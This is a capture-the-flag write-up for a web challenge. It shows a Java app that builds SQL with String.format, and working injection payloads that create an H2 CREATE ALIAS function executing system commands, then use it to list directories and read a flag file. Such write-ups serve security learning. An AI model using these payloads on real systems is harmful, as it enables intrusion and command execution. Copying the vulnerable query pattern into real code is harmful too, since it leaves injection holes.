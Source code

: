 # Challenge: Pentest Notes
## Rate: Easy

The vulnerable code in the web application processes the `name` parameter by using the `String.format()` method to build a SQL query:

```java
String query = String.format("Select * from notes where name ='%s' ", name);
```

This allows an attacker to inject arbitrary SQL, potentially altering the query logic to execute additional commands. The application also contains restrictions on characters like `$` and strings like `concat`, but these restrictions can be bypassed.

### Exploiting the Vulnerability:

1. **Bypassing Restrictions**:
    - The vulnerability in the `name` parameter allows attackers to inject SQL statements.
    - We exploit this by terminating the current query with a semicolon (`';`) and injecting a `CREATE ALIAS` statement that defines a custom function to execute system commands.
    - The `CREATE ALIAS` statement avoids the use of restricted characters like `$` and `concat`.
2. **Payload to Create Alias**:
The first part of the attack creates a custom Java alias that runs system commands using `Runtime.getRuntime().exec()`. This alias, named `REVEXEC`, executes any command passed to it.
    
    **Payload**:
    
    ```sql
    '; CREATE ALIAS REVEXEC AS 'String shellexec(String cmd) throws java.io.IOException {java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";}';--
    ```
    
    This payload successfully creates an alias `REVEXEC` that can execute system commands, such as listing directory contents or reading files.
    

Once the `REVEXEC` alias is created, we can execute arbitrary commands by calling the `shellexec` function with different arguments.

1. **Listing System Directories**:
To list directories on the system, we inject the following payload:
    
    ```sql
    pwn' UNION SELECT 1, 2, REVEXEC('ls /') --
    ```
    
    - `REVEXEC` is the name of the function we use to execute commands, and `ls /` lists the contents of the root directory.
2. **Reading a Flag File**:
To retrieve the contents of the flag file, we use:
    
    ```sql
    pwn' UNION SELECT 1, 2, REVEXEC('cat /randomChar_flag.txt') --
    ```
